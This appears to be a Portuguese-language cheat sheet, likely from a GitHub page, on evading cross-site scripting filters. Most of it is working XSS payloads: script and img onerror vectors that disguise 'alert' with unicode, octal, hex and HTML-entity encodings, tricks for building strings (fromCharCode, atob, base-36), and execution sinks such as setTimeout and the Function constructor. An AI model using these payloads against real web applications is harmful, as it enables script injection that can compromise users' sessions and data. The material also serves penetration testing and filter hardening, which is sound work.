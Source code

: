 Como os browsers estão em constante mudança, existe uma ferramenta que realiza o fuzzing para descobrir os caracteres que podem ser usados de acordo com a versão do browser

http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name
http://shazzer.co.uk/vector/Characters-allowed-brfote-attribute-name

## Keyword Based Filters

**Character scaping**

Imaginando um cenário onde a palavra **alert** está bloqueada (ignorando alternativas como prompt, confirm, etc...)

```html
<script>alert(1)</script> // Block

// Sem funções nativa
<script>\u0061lert(1)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>

// Usando função nativa
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>

<img src=x onerror="alert(1)"/> // Block

<img src=x onerror="\u0061lert(1)"/>
<img src=x onerror="eval('\141lert(1)')"/>   // Octal
<img src=x onerror="eval('\x61lert(1)')"/>   // Hexadecimal
<img src=x onerror="&#x0061;lert(1)"/>       // Hexadecimal Reference
<img src=x onerror="&#97;lert(1)"/>          // Decimal NCR
<img src=x onerror="eval('\a\l\ert\(1\)')"/> // Superfluous escape
<img src=x onerror="\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>  // Todos juntos
```

**Construindo string**

```javascript
alert // Block

/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
17795081..toString(36)
```

**Execution Sinks**

Lista completa com todos os sinks:

https://code.google.com/archive/p/domxsswiki/wikis/ExecutionSinks.wiki

```javascript
setTimeout("JSCode")    // Todos os browsers
setInterval("JSCode")   // Todos os browsers
setImmediate("JSCode")  // IE 10+
Function("JSCode")      // Todos os browsers

[].constructor.constructor(alert(1))  // Variação de Function
```
